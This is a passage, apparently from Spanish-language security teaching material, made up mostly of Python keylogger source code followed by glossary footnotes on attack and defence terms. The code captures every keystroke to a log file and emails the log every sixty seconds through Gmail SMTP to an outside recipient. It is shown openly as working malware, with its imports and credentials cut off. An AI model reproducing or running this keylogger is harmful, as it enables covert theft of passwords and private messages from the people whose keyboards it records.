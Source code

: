 ``` Python
archivo_log = "keylog.txt"

# Función para enviar el archivo de log por correo
def enviar_email():
    try:
        with open(archivo_log, "r") as file:
            contenido = file.read()

        # Configuración del correo
        mensaje = MIMEMultipart()
        mensaje["From"] = EMAIL
        mensaje["To"] = DESTINATARIO
        mensaje["Subject"] = "Registro de Keylogger"

        # Añadir el contenido como texto
        mensaje.attach(MIMEText(contenido, "plain"))

        # Conectar al servidor SMTP
        servidor = smtplib.SMTP("smtp.gmail.com", 587)
        servidor.starttls()
        servidor.login(EMAIL, PASSWORD)

        # Enviar el correo
        servidor.sendmail(EMAIL, DESTINATARIO, mensaje.as_string())
        servidor.quit()
        print("Correo enviado con éxito.")
    except Exception as e:
        print(f"Error al enviar el correo: {e}")

# Función para registrar las pulsaciones
def registrar_pulsaciones(key):
    # Formatear la tecla para almacenarla correctamente
    key = str(key).replace("'", "")  # Eliminar comillas simples
    if key == "Key.space":
        key = " "  # Representar espacios como espacios
    elif key == "Key.enter":
        key = "\n"  # Representar enter como nueva línea
    elif "Key" in key:
        key = ""  # Ignorar teclas especiales como Shift, Ctrl, etc.

    # Guardar en el archivo log
    with open(archivo_log, "a") as file:
        file.write(key)

# Programa principal
def ejecutar_keylogger():
    # Borrar el archivo log si existe
    if os.path.exists(archivo_log):
        os.remove(archivo_log)

    # Iniciar el keylogger
    with Listener(on_press=registrar_pulsaciones) as listener:
        try:
            # Ejecutar el listener durante un tiempo y enviar correo cada cierto intervalo
            inicio = time.time()
            while True:
                time.sleep(10)  # Tiempo en segundos para capturar datos
                if time.time() - inicio > 60:  # Enviar cada 60 segundos
                    enviar_email()
                    inicio = time.time()
        except KeyboardInterrupt:
            print("Keylogger detenido.")
        finally:
```

[^footnote]: El Zero Day o Ataque de día cero, es un ataque contra una aplicación o un sistema que tiene como objetivo la ejecución de código malicioso mediante vulnerabilidades desconocidas para los usuarios y el fabricante del producto.
[^fn-nth-2]: Es un ataque distribuido que tiene como objetivo desactivar y derribar recursos en linea sobrecargandolo con solicitudes de conexión, paquetes falsos y otro tráfico malicioso.
[^fn-nth-3]: Un dispositivo IoT  es un equipo conectado a internet. Por ejemplo, termostato inteligente, cámaraa de seguridad o asistente virtual.
[^fn-nth-4]: Es la parte central de un sistema operativo que gestiona el hardware y permite que los programas interactúen con él.
[^fn-nth-5]: Software básico que inicia el hardware del computador y carga el sistema operativo. UEFI es la versión más moderna y segura que reemplaza al BIOS tradicional.
[^fn-nth-6]:  Protocolo usado para comunicación en tiempo real mediante texto, común en comunidades y canales de chat.
[^fn-nth-7]: Protocolo estándar para transferir datos en la web, como cargar páginas o enviar formularios.
[^fn-nth-8]:  Modelo de red donde los dispositivos se conectan directamente entre sí para compartir recursos sin intermediarios.
[^fn-nth-9]: Sistema que filtra y controla el tráfico de red para proteger dispositivos o redes de accesos no autorizados.
[^fn-nth-10]: Herramienta que detecta y bloquea automáticamente actividades maliciosas en la red.
[^fn-nth-11]: Plataforma que recopila, analiza y correlaciona datos de seguridad para identificar y responder a amenazas.